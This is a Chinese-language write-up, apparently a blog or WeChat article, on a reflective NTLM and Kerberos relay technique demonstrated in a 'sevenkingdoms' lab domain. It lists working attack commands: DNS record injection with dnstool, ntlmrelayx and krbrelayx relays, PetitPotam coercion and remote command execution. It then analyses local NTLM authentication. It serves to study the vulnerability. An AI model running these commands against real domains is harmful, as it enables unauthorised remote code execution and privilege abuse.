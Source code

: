 SMB、HTTP 在解析域名时会尝试所有的方法：IPv4, IPv6, mDNS, LLMNR, NetBIOS-NS, A, AAAA, ANY和所有可能的组合去获取到域名的解析 IP  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/4LicHRMXdTzAa8vyywL0Em1eSBDwicSLtGVcfoib4k0b2kp9cbwf1GZxrEeicmGgZicYfW8QGEOVZ3oSW75LsvWPmNw/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/4LicHRMXdTzAa8vyywL0Em1eSBDwicSLtGIUK0DBMwMm2EjEOsCvzHLkXQu3Ld3wIs9Nnib3cjbCV8ac92HgWPWsA/640?wx_fmt=png&from=appmsg "")  
  
  
使用 dnstool 向域内添加 DNS 记录（该方法可在不同局域网使用）  
```
$ dnstool.py -u 'NORTH.SEVENKINGDOMS.LOCAL\arya.stark' -p 'Needle' 192.168.56.9 -a add -r CASTELBLACK1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA -d 192.168.56.11 [-] Adding new record [+] LDAP operation completed successfully
```  
  
2、开启 NTLM Relay  
```
$ impacket-ntlmrelayx -t CASTELBLACK.NORTH.SEVENKINGDOMS.LOCAL -smb2support
```  
  
3、使用 PetitPotam 强制让目标机器向攻击机器做 SMB 验证  
```
$ PetitPotam.py -d NORTH.SEVENKINGDOMS.LOCAL -u 'arya.stark' -p 'Needle' "CASTELBLACK1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA" "CASTELBLACK.NORTH.SEVENKINGDOMS.LOCAL"
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/4LicHRMXdTzAa8vyywL0Em1eSBDwicSLtGNjmsOFykibtRDtDuiaOCZaVUQeOVePQQHibzOvySUW12HCGyzzCvdVemg/640?wx_fmt=png&from=appmsg "")  
#### 使用 Kerberos 中继  
  
第一步和第三步与上述一致，第二步开启 krbrelayx 。  
```
$ python3 krbrelayx.py -t CASTELBLACK.NORTH.SEVENKINGDOMS.LOCAL -debug -c 'cmd /c "whoami /all & hostname & ipconfig"'
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/4LicHRMXdTzAa8vyywL0Em1eSBDwicSLtG7Wpel1hh3wiaPpnvZLjolYcWeX5P8yuVdhVDm0O9wT8TUF8TqJ4kfdA/640?wx_fmt=png&from=appmsg "")  
## 漏洞分析  
#### 本地 NTLM 认证  
  
本地 NTLM 认证是一种特殊的机制，也就是在 NTLMSSP_CHANLLENGE  
 包中如果字段 NTLMSSP_NEGOTIATE_LOCAL_CALL  
 (0x4000  
) 为 set ，也就是服务端告诉客户端应该使用本地 NTLM 认证，并且创建一个服务器上下文，添加到全局上下文列表中，最后将上下文 ID 插入 Reserved  
 字段中。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/4LicHRMXdTzAa8vyywL0Em1eSBDwicSLtGOqn4MDxjDcxibfSv5WUUvtUDE5msFw3icOt09IPAVM8sIFZCqiacj6Wkw/640?wx_fmt=png&from=appmsg "")  
  
  
当客户端收到 NTLMSSP_CHANLLENGE  
 数据包时，就知道要进行本地 NTLM 身份验证，然后通过 Reserved  
 ID 将自己的 token 传递到服务器的上下文中。又因为客户端和服务器属于同一台计算机，所以所有操作都在 lsass.exe  
 进程的内存中，最后客户端不需要计算 NTLMSSP_AUTH  
 消息中的 Challenge  
 响应，直接返回空值，服务器便可以使用添加到上下文的令牌在目标主机上执行命令。  
  